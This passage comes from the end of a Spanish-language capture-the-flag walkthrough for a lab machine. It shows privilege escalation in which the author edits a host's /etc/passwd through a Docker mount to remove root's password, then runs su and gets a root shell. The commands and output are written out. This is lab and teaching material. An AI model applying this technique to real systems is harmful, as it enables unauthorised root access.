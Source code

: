 Ahora solo nos queda obtener acceso al host. Nos movemos al directorio `/mnt`.

```bash
vi ./etc/passwd
```

- **`vi`**: Editor de texto en terminal que se usa para editar archivos.
- **`/etc/passwd`**: Archivo que almacena información sobre los usuarios del sistema. Cada línea representa un usuario.

La línea para el usuario `root` normalmente tiene un campo de contraseña, pero se puede eliminar para permitir el acceso sin contraseña.

```bash
root:x:0:0:root:/root:/bin/bash
```

Esta es la línea original para el usuario `root`. El campo `x` indica que la contraseña está almacenada de forma encriptada en el archivo `/etc/shadow`.

```bash
root::0:0:root:/root:/bin/bash
```

Se elimina el `x`, lo que indica que ahora el usuario `root` no tiene contraseña. Esto permitirá hacer `su` para cambiar al usuario `root` sin necesidad de una contraseña.

### Acceso como usuario root

```bash
/mnt # exit
juan@TheHackersLabs-CanYouHackMe:~$ su
root@TheHackersLabs-CanYouHackMe:~# id
uid=0(root) gid=0(root) groups=0(root)
root@TheHackersLabs-CanYouHackMe:~#
```

- **`su`**: Comando para cambiar al usuario root. Dado que se eliminó la contraseña de root en el paso anterior, ahora se puede acceder como root sin necesidad de ingresar una contraseña.

# **Conclusión**

Este CTF pone en práctica múltiples técnicas de hacking:

- **Reconocimiento**: Escaneo de red y de puertos para identificar servicios vulnerables.
- **Explotación**: Ataque de fuerza bruta para obtener credenciales de usuario.
- **Escalada de privilegios**: Uso del grupo `docker` para obtener acceso completo a la máquina mediante contenedores Docker.